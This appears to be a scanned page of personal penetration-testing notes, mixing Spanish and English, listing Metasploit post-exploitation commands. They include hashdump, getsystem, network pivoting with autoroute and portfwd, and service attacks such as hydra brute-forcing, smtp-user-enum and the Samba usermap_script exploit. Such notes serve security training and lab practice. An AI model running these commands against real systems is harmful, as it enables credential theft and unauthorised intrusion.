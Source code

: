 hashdump
shell --> net users -Ver cuantos usuarios hay
getprivs, getuid, getsystem,
whoami /privs 
query user
net localgroup administrators
systeminfo
arp -a -Maquinas en la tabla ARP
meterpreter> ifconfig -Verificar si hay mas interfaces de red, para hacer pivoting
run arp_scanner -r IPSubnet/24
run autoroute -s IPSubred/24 -Agregar la subred
msf> route print
portscan/tcp

PortFowarding
meterpreter> portfwd add -l 2233 -p 445 -r IPVictima2
nmap -p 2233 localhost

____________________ MAQUINA 3

FTP 
nmap -sSVC -p21 IP
hydra

SMTP 
smtp-user-enum

SAMBA
msf> usermap_script

WINRM
msf> winrm_login
